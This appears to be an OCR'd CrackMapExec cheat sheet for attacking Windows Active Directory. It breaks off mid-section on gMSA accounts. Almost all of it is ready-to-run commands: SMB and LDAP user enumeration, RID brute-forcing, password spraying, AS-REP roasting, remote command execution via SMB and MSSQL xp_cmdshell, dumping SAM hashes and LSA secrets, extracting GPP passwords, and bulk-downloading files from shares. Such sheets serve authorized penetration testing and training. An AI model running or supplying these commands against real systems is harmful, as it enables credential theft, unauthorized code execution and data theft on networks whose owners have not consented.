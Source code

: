 bash$ cme smb <target> -u username -p password --sessions
Enumerate users by bruteforcing RID's (default: 4000)

bash$ cme smb <target> -u username -p password --rid-brute
Execute the specified command

bash$ cme smb <target> -u username -p password -x 'whoami'
Execute the specified PowerShell command

bash$ cme smb <target> -u username -p password -X 'whoami'
Get Hashes

bash$ cme smb <target> -u username -p password --sam
CrackMapExec Cheat Sheet
Initial Enumeration
crackmapexec smb <ip>
Testing null/guest authentication and listing shares
crackmapexec smb targets.txt -u '' -p '' --shares
crackmapexec smb targets.txt -u 'Guest' -p '' --shares
Enumerate users using ldap
crackmapexec ldap <domain> -u '' -p '' --users
crackmapexec ldap <domain> -u users.txt -p "" -k
Asreproast
crackmapexec ldap <domain> -u <username> -p "" --asreproast asrep.txt
Bloodhound
crackmapexec ldap <domain> -u <username> -p <password> --bloodhound -ns <ip> --collection All
Group Policy Preferences
https://www.thehacker.recipes/ad/movement/credentials/dumping/group-policies-preferences
crackmapexec smb <domain> -u <username> -p <password> -M gpp_password
Creds Spray
crackmapexec smb targets.txt -u <username> -p <password>
Password Spray
crackmapexec ldap <domain> -u users.txt -p <password> --continue-on-success
crackmapexec ldap <domain> -u users.txt -p <password> --no-bruteforce --continue-on-success
STATUS_NOT_SUPPORTED: NTLM protocol not supported
In this case we can use the -k option which will use Kerberos protocol to authenticate.

crackmapexec smb targets.txt -u <username> -p <password> -k
List shares
crackmapexec smb targets.txt -u <username> -p <password> -k --shares
Spider_plus Module
The module spider_plus allows you to list and dump all files from all readable shares

List all readable files
crackmapexec smb <domain> -u <username> -p <password> -k -M spider_plus
Dump all files
crackmapexec smb <domain> -u <username> -p <password> -M spider_plus -o READ_ONLY=false
Dump a specific file
crackmapexec smb <domain> -u <username> -p <password> -k --get-file <target_file> <output_file> --share <sharename>
MSSQL
Test authentication
crackmapexec mssql targets.txt -u <username> -p <password>
Execute commands using xp_cmdshell
-X for powershell and -x for cmd
crackmapexec mssql <domain> -u <username> -p <password> -X <command_to_execute>
Get a file
crackmapexec mssql <domain> -u <username> -p <password> --get-file <output_file> <target_file>
Local Administrator authentication
crackmapexec smb <domain> -u <username> -p <password> --local-auth
Dump the LSA secrets
crackmapexec smb <domain> -u <username> -p <password> --local-auth --lsa
Recover the name of the gmsa account
https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-5-golden-gmsa-trust-attack-from-child-to-parent We have two possibilities to recover the name of the gmsa account:
Using the --gmsa-convert-id option: